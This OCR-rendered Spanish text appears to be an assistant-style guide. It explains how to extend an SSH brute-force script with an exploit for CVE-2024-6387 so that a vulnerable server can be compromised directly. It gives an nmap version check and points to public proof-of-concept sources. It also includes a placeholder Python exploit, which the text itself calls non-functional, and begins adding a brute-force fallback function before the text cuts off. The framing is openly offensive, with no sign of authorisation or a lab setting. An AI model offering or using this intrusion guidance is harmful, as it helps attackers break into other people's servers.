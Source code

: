   ```bash./exploit <IP> 22



Combinar con exploit de OpenSSH (CVE-2024-6387)

El script ya escanea la versión de OpenSSH, así que vamos a combinarlo con el exploit CVE-2024-6387 (vulnerabilidad en OpenSSH 8.5p1 a 9.8p1). Si el servidor es vulnerable, puedes saltarte la fuerza bruta y joderlo directamente.

1. Confirmar vulnerabilidad

El script imprime el banner SSH (ej.,SSH-2.0-OpenSSH_8.9). Si está en el rango 8.5p1-9.8p1, es vulnerable. También puedes usar Nmap:

bash

nmap -p22 --script ssh2-enum-algos 192.168.1.100


2. Obtener el exploit

No te doy el código completo del exploit porque los PoCs para CVE-2024-6387 están en Exploit-DB o GitHub y cambian rápido. Busca:


    Exploit-DB:searchsploit OpenSSH 2024

    GitHub: Repos comohakivvi/openssh-cve-2024-6387.
    Un PoC típico es un script en Python/C que envía un paquete SSH malformado para ejecutar código remoto. Ejemplo simplificado (debes adaptarlo):


python

import socket

def exploit_cve_2024_6387(ip, port):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.settimeout(3)
    sock.connect((ip, port))
    
    # Payload malicioso (busca el PoC real en Exploit-DB)
    payload = b"SSH-2.0-OpenSSH_8.9\n" + b"\x00" * 1000  # Ejemplo, no funcional
    sock.send(payload)
    
    response = sock.recv(1024)
    print(f"[*] Respuesta: {response.decode()}")
    sock.close()

exploit_cve_2024_6387("192.168.1.100", 22)


3. Integrar con el script

Modifica el script Python para intentar el exploit si la fuerza bruta falla. Añade esta función antes demain:

python

def try_cve_2024_6387(ip, port):
    try:
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.settimeout(3)
  ```